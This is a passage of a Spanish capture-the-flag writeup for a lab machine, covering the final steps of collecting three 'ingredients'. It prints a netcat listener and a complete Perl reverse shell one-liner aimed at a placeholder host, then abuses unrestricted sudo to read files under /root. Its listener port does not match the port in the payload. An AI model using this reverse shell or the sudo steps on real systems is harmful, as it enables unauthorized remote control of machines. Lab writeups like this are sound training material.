 Ahora debemos obtener una reverse shell. Intentamos realizar una bash reverse shell pero no funciona por lo que lo intento con perl. Entramos en <a href="https://gtfobins.github.io/">gtfobins</a> para poder buscar la reverse shell con perl. 

Desde la máquina atacante nos ponemos en escucha por el puerto 444 con nc:

```bash
nc -lnvp 4444
```

Por otro lado, desde la máquina víctima introducimos la perl reverse shell:

```bash
export RHOST=attacker.com
export RPORT=12345
perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Obtenemos así la reverse shell y podemos ejecutar comandos desde la máquina atacante.

Abrimos el archivo "second ingredients" y obtenemos el segundo ingrediente.

```bash
cat 'second ingredients'
```

Con sudo -l podemos observar los permisos que tiene el usuario Rick a la hora de ejecutar comandos. En este caso podemos realizar todos los comandos como sudo por lo que listamos lo que hay en el usuario root mediante:

```bash
sudo ls /root/ y vemos un archivo txt
```

Lo abrimos y obtenemos el último ingrediente!

```bash
sudo cat /root/3rd.txt
```

Muchas gracias por leer este writeup, espero que te haya gustado!

